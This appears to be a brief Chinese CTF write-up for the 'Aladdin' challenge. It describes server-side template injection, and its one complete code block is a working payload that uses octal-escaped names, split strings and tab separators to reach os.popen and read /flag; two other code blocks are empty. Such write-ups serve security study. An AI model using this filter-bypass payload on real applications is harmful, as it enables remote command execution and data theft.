

# The myth of Aladdin

> 知识点: SSTI 模板注入, 八进制绕过, cut 截断读取文件
>

探测是否存在 SSTI

```

```

然后测试发现禁用了很多类, 可以使用双引号, 尝试后发现八进制可以注入

```

```

可以注入后读取根目录的 flag, 发现不能直接读取, 尝试用 cut 截断数组带出

```
{%print(()["\137\137\143\154\141\163\163\137\137"]["\137\137\142\141\163\145\137\137"]["\137\137\163\165\142\143\154\141\163\163\145\163\137\137"]()[95]["\137\137\151\156\151\164\137\137"]["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]["\137\137\151\155\160\157\162\164\137\137"]("o""s")["\160\157\160\145\156"]("c""ut%09-c%092-40%09/fl""ag")["\162\145\141\144"]())%}
```

结果


